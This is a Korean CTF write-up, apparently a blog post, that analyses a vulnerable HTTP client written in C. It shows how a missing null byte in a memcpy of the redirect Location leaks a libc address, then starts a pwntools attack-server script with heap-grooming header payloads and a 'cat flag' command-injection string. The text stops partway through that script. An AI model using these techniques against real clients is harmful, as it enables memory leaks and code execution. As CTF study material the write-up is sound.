 두 번째 취약점은, 아래 코드에 있다.
```c++
    redirect = malloc(strlen(value) + 1);
    memcpy(redirect, value, strlen(value));
```
이것이 왜 취약점인지 잘 연상이 안 될 수도 있지만, **memcpy** 로 문자열을 복사하는 데 주목하자. **strlen(value)** 크기만을 복사하게 되면 문자열 끝에 있는 **널바이트**가 **redirect**에는 빠지게 된다. 따라서 이 부분을 잘 활용하면 릭을 낼 수 있다.

 취약점과 별개로 한 가지 중요한 것은, **content-length** 키를 전송하면 임의 사이즈의 청크를 할당할 수 있다는 것이다. 또한, **location** 에서 전송된 **value** 의 길이만큼의 공간을 **malloc ** 하고, 그 곳에 내용을 쓸 수 있다는 것이다. 이것을 이용해 공격 서버를 프로그래밍 할 수 있다.

하지만, 아직 한 가지 문제가 있는데, 서버로 프로그램의 libc 주소를 알려줄 **leak** 을 보내야 한다는 것이다. 따라서, 취약점 하나를 더 찾아보자. 여기서는 서버에 데이터를 전송하는 유일한 코드인
```c++
    request = malloc(SIZE_HEADER + strlen(path) + strlen(host) + 1);
    sprintf(request, "GET /%s HTTP/1.1\r\nHost: %s:%s\r\n\r\n", path, host, port);
    write(sock, request, strlen(request));
```
이 부분에 주목할 것이다.

코드의 뒷부분을 좀 더 살펴보자
```c++
    if (redirect) {
        /* support for omitted hostname */
        if (redirect[0] == '/') {
          char *t = malloc(SIZE_HOST + strlen(host) + strlen(redirect) + 1);
          sprintf(t, "http://%s:%s%s", host, port, redirect);
          free(redirect);
          redirect = t;
        }
    /* redirect to the new URL and return it's HTML */
    close(sock);
    return omega_get(redirect);
```
이 부분에서 **redirect** 가 할당되어 있는 경우 재귀호출을 통해 리다이렉션을 수행한다. 여기서 앞서 살펴 본 바에 따르면, **location** 에 **http://** 로 시작하는 url이나 **/** 로 시작하는 문자열을 보내면 그 뒤에 널 바이트가 붙지 않아 발생한 릭이 url에 붙게 된다. 익스플로잇에서는 하나의 공격 서버만 사용할 것이므로 모두 **/** 로 시작하는 리다이렉션 주소를 보낼 것이다. 그러면, **omega_get** 에서 다시 불린 **download_file** 함수에 릭이 포함된 **path** 가 들어가고, 
```c++
    request = malloc(SIZE_HEADER + strlen(path) + strlen(host) + 1);
    sprintf(request, "GET /%s HTTP/1.1\r\nHost: %s:%s\r\n\r\n", path, host, port);
    write(sock, request, strlen(request));
```
이 부분에 의해 **path** 가 서버로 전송되면서 서버는 프로그램의 릭을 획득할 수 있다.

## 2. Actual Exploit
다음은 *server.py* 코드이다.
```python
    import socket
    from pwn import *
    
    payload1 = b'content-length: 255\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\nlocation: /xxxxxxx\r\n' + \
                            b'content-length: 100\r\nlocation: ///xxxxx\r\n' + b'\0\r\n'
    
    catflag = b';' * 0x1e0 + b'cat flag;'
    
    payload2 = b'content-length: 511\r\nlocation: /1\r\nlocation: /1\r\nlocation: /1\r\n\0\r\n'
    
    payload3 = b'content-length: 15\r\ncontent-length: 15\r\n' + (b'location: /11' + catflag + b'\r\n') * 4 + b'\r\n\0\r\n'
    
    payload4_f = b'content-length: 411\r\n'
    
    payload4_b = b'\r\n\0\r\n'
```